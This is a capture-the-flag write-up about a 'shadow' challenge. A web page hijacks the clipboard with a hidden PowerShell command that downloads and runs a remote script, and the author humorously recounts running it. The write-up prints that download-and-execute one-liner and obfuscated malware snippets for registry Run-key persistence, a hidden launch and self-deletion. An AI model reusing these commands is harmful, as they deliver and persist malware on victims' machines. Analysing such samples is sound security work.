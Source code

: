 # Challenge Description

> Rumors whisper of a shadow moving beneath the Silver Moon.
Investigate the strange occurrences and reveal the demon’s hidden technique before it’s too late
>
> WARNING: Do not run the malware file on your PC.
https://powershell.wwctf.com/ 

# Overview

Let's start by looking at what the site does. We can directly see that when we click on the file path as requested, it modifies our clipboard by discreetly adding a PowerShell script.

```js
powershell -ep bypass -w hidden IEX(New-ObjEct System.Net.Webclient).Downloadstring('https://powershell.wwctf.com/update.ps1')                                                                    
```

# Who could be stupid enough to launch it by accident?

**I launched it**. Few seconds after the challenge was published. And it took a few seconds before I realized what I had just done... The PowerShell script was huge as fuck *(19Mo)*, it even crashed my VSCode instantly at the first opening...

<div align="center">
	<p><b>me during the challenge:</b></p>
  <img src="https://imgur.com/4ccuSDG.png" width="300">
</div>

This PowerShell Script will create an ``update.exe`` in ``$env:USERPROFILE\Documents\J1Csum3Dcj``, it will add persistence by launching it at user login. It will then launch the executable and then delete it from the folder. What could go wrong with running this on my computer without checking?

### Persistence
```ps
Set-ItemProperty -Path ((("{8}{2}{5}{1}{0}{6}{3}{7}{4}"-f'ows{0}C','d','oftwar','rr','Version{0}Run','e{0}Microsoft{0}Win','u','ent','HKCU:{0}S'))  -F[char]92) -Name ("{2}{0}{1}"-f 'Ao','prv','l') -Value "$env:USERPROFILE\Documents\J1Csum3Dcj\update.exe"
```

### Launch the malware
```ps
$ws=New-Object -ComObject WScript.Shell;$ws.Run($EHPoSQvgWxy,0,$false)
```

### Delete the malware
```ps
Remove-Item $MyInvocation.MyCommand.Path -Force
```

# VirusTotal

Just to be extra sure about what I had just done, I decided to remove the part that deletes ``update.exe`` and upload the file to VirusTotal. You know… just to be sure.

<div align="center">
  <img src="https://imgur.com/6QsRV0c.png">
</div>

In French, we'd say I was *["chokbar"](https://dictionnaire.orthodidacte.com/article/definition-chokbar-de-bz)*. So I basically ran, on my own machine, a program that's flagged as malicious by more than 50% of [antivirus engines](https://www.virustotal.com/gui/file/88d8aa69350b8516857c2fee3de800dc7e8afefd5660f27d3fadde51c349fdac/behavior)?

![https://imgur.com/EyETDJ9.png](https://imgur.com/EyETDJ9.png)

# Analysis

In the VirusTotal report, you can see the program communicate to two local IPs: ``192.168.100.157`` on port ``8080``, and ``192.168.75.130`` on port ``443``. But I mean... why bother analyzing the traffic in a safe environment when the malware’s already chilling on my machine, right?

So yeah, I just kept running the damn thing to see what else it would do. Unfortunately, I was not able to capture the flag due to encrypted traffic. Then Windows Defender suddenly woke up and started blocking the program, so I put the program in a .7z and uploaded it to VirusTotal again. The program was still flagged as malicious. But this time, we got some new info on what it was doing.

# Finding the flag

In the **Memory Pattern Urls** section, we can see a lot of URLs that the program tries to access. In the list, we can see a URL that looks interesting: ``https://192.168.75.130?flag=d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=``.

**Wait a sec. That looks like a flag. Let’s decode it with base64.**
```bash
┌─[raphckrman@raphckrman]─[~]
└──╼ $echo "d3dme2YxbDNmMXhfdDBfc2wxdjNyX2IzNGMwbn0=" | base64 --decode
wwf{f1l3f1x_t0_sl1v3r_b34c0n}
```

Boom. Got it. I don't think this is the intended way to solve the challenge, but I mean... it works, right, a flag is a flag ?
<div align="center">
  <img src="https://imgur.com/UxYviGT.png" width="400">
</div>

# Is this the intended way to solve the challenge?

No, not at all. Besides, after I solved the challenge, the creator of the challenge, @serioton, reached out to me to discuss my approach. We had a fun conversation about the challenge and its intended solution.

![https://imgur.com/r8IeKnR.png](https://imgur.com/r8IeKnR.png)

I knew it was weird I got the flag so easy, like 30 minutes after the challenge went live. The creator’s totally confused about how VirusTotal spotted the flag with that encryption layer in the way…

![https://imgur.com/O1zRvh3.png](https://imgur.com/O1zRvh3.png)
<div align="center">
  <img src="https://imgur.com/O4CKYvZ.png" width="400">
</div>